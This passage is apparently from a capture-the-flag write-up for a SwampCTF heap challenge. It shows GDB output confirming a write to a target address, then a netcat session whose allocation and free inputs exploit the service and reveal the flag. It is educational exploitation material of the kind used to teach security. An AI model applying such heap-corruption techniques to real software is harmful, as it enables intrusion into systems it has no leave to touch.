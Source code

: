 ```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$7 = 0x4
gef➤  p $rax
$8 = 0x602260
```

With that last iteration, we finally write the value `0x4` to the address of target `0x602260`. With that we can capture the flag.

```
$	nc chal1.swampctf.com 1066
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: -2
target green provisioned.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
flag{Gr34t_J0b_t0ur1ng_0ur_d1gi7al_L1nk5}
```
